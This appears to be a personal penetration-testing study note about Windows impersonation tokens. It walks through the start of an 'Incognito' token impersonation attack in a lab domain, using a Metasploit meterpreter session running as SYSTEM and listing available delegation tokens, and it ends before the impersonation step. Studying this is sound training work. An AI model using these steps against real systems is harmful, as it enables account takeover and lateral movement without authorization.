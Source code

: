 
## Windows Security Tokens

Windows uses [[Security Access Tokens]] to represent identities and grand or deny access to resources based on them. There are two types of tokens, [[Primary Tokens]] and [[Impersonation Tokens]], and this attack we will be exploiting the *Impersonation Token*.

Under impersonation tokens, there are four different impersonation levels available to control how much the thread using the impersonation token can do.

1. **Anonymous**: No identity information is available
2. **Identification**: Can query the client's identity but cannot perform actions as them
3. **Impersonation**: Can act as the client on the *local machine only*
4. **Delegation**: Can act as the client *on remote systems*

From the amount of control available, we can see the delegation token is the most lucrative option for a compromise. Hence we will focus on how to use than toke for an attack next.

## Incognito Attack

For this attack we will be using the incognito module available in [[Metasploit]]. However, before running the module, we need to gain shell access to the compromised machine. This can be done using `psexec` as shown [[Gaining Shell Access#^shellAccess|here]].

Once we have the meterpreter session and spawned a shell, we can check who we are with the `whoami` command and see that we are `NT AUTHORITY\SYSTEM`.

```batch
meterpreter > shell
Process 7944 created.
Channel 1 created.
Microsoft Windows [Version 10.0.19045.5608]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

We need to exit from the shell to the meterpreter session to load the module and then *list* the available *tokens by users* with the `-u` flag. The `-g` will list by groups.

```bash
C:\Windows\system32>^C
Terminate channel 1? [y/N]  y
 
meterpreter > load incognito 
Loading extension incognito...Success.

meterpreter > list_tokens -u

Delegation Tokens Available
========================================
Font Driver Host\UMFD-0
Font Driver Host\UMFD-1
MARVEL\fcastle
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\NETWORK SERVICE
NT AUTHORITY\SYSTEM
Window Manager\DWM-1

Impersonation Tokens Available
========================================
No tokens available
```
